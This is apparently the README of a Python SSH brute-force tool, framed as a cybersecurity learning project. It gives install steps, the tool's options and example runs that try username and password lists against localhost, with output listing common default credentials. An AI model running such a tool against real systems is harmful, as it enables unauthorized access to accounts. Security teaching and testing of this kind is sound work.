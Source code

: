 # bforce ssh

[![MIT Licence](https://badges.frapsoft.com/os/mit/mit.svg?v=103)](https://opensource.org/licenses/mit-license.php)
[![python](https://img.shields.io/badge/python-3.10-blue.svg)](https://www.python.org/downloads/)

### SSH login brute force

Project for learning cyber security risks and protection measures.

### Requirements

- Python (3.10.*)
- Dependency manager `poetry`
- Dependencies `colorama`, `paramiko` and `python-dotenv`

### Tested on

- Ubuntu 22.04
- MacOS

### Install poetry

> If you have installed poetry, skip the block below!

Install poetry in Ubuntu

<details>

```bash
$ sudo apt install python3-poetry
```

Upgrade poetry in Ubuntu

```shell
sudo apt install --only-upgrade python3-poetry
```

</details>

Install poetry in MacOS

<details>

With pip

```bash
python -m pip install poetry
```
With pipx

```shell
pipx install poetry
```

Upgrade poetry in MacOS

With self poetry

```shell
poetry self update
```

With pip

```shell
python3 -m pip install -upgrade poetry
```

With pipx

```shell
pipx upgrade poetry
```
</details>

[Other way poetry installation](https://github.com/python-poetry/install.python-poetry.org)

### Download

```bash
git clone https://github.com/koskelainen/bforce_ssh.git
```

### Install modules

All dependencies are installed after the command `poetry install`

```bash
$ cd bforce_ssh/
$ poetry install
```

### Usage

`-h` or `--help ` to call help or *without arguments*

```bash
python bforce_ssh.py -h
```

help example:

```bash
$ python bforce_ssh.py
[$] python  bforce_ssh.py -i Host [OPTION]

options:
  -h, --help            show this help message and exit
  -np PRODUCERS, --nprod PRODUCERS
                        number of producers, read files (default 1)
  -nc CONSUMERS, --ncon CONSUMERS
                        number of consumers, ssh client (default 4)
  -i HOST, --ip HOST    ip address
  -p PORT, --port PORT  port ssh (default 22)
  -u USERNAME, --user USERNAME
                        ssh user name
  -U USERS_FILE, --users_file USERS_FILE
                        usernames file path
  -P PASSWORDS_FILE, --passwords_file PASSWORDS_FILE
                        passwords file path
  -t TIMEOUT, --timeout TIMEOUT
                        request timeout (default 5)
  -bt BANNER_TIMEOUT, --banner_timeout BANNER_TIMEOUT
                        request banner timeout (default 50)
  -at AUTH_TIMEOUT, --auth_timeout AUTH_TIMEOUT
                        request auth timeout (default 10)
[+] bforce_ssh.py executed in 0.00 seconds.

```

#### Brute force password of single user
	
```bash
python bforce_ssh.py -i localhost -p 22 -u admin -P data/passwords/file.txt
```

#### Brute force user and password
	
```bash
python bforce_ssh.py -i 127.0.0.1 -U data/users/file.txt -P data/passwords/file.txt
```

Run example:

```shell
$ python bforce_ssh.py -i localhost -p 22 -U data/users/file.txt -P data/passwords/file.txt
[+] test : admin............................................. Failed
[+] test : root.............................................. Failed
[+] test : toor.............................................. Failed
[+] test : raspberry......................................... Failed
[+] test : test.............................................. Failed
[+] test : uploader.......................................... Failed
[+] test : password.......................................... Failed
[+] test : administrator..................................... Failed
[+] test : marketing......................................... Failed
[+] test : 12345678.......................................... Failed
[+] test : 1234.............................................. Failed
[+] test : 12345............................................. Failed
[+] test : qwertyF........................................... Failed
[+] test : webadmin.......................................... Failed
[+] test : webmaster......................................... Failed
[+] test : maintaince........................................ Failed
[+] test : techsupport....................................... Failed
[+] test : letmein........................................... Failed
...


```


```shell
$ python bforce_ssh.py -i 127.0.0.1 -u adm1n -P data/passwords/file.txt
[$] adm1n : adm1n............................................. Successful
[+] bforce_ssh.py executed in 0.20 seconds.

```
